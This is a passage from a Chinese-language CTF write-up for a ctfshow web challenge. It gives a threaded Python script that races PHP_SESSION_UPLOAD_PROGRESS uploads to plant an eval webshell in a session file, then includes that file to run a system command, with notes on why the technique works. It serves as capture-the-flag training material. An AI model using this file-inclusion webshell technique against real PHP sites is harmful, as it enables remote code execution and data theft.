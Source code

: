 https://blog.csdn.net/qq_61237064/article/details/122460483

https://www.freebuf.com/vuls/202819.html

https://www.cnblogs.com/lnterpreter/p/14086164.html

https://www.cnblogs.com/echoDetected/p/13976405.html

```
import requests
import threading
import sys
session=requests.session()
sess='yu22x'
url1="http://7f414b90-1296-4a96-b997-cf759a8bc2b4.challenge.ctf.show/"
url2='http://7f414b90-1296-4a96-b997-cf759a8bc2b4.challenge.ctf.show/?file=/tmp/sess_'+sess
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
}
data2={
	'1':'system("cat f*");'
}
file={
	'file':'abc'
}
cookies={
	'PHPSESSID': sess
}
def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.post(url2,data=data2)
		if 'ctfshow{' in r.text:
			print(r.text)
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()
```

```
session=requests.session()是发送一个session请求

文件名：在 Cookie 里设置 PHPSESSID=aaa，PHP 会话在服务器上创建一个文件：/tmp /sess_aaa

文件内容：PHP_SESSION_UPLOAD_PROGRESS是实时上传进度，向服务器上传一个文件时，php将把所有功能的详细信息存储在会话。所以PHP_SESSION_UPLOAD_PROGRESS里面的内容会被拼接到默认的PHPSESSID名字里面。

脚本中发送一个abc的文件是为了让$_FILE不为空
```

## web87
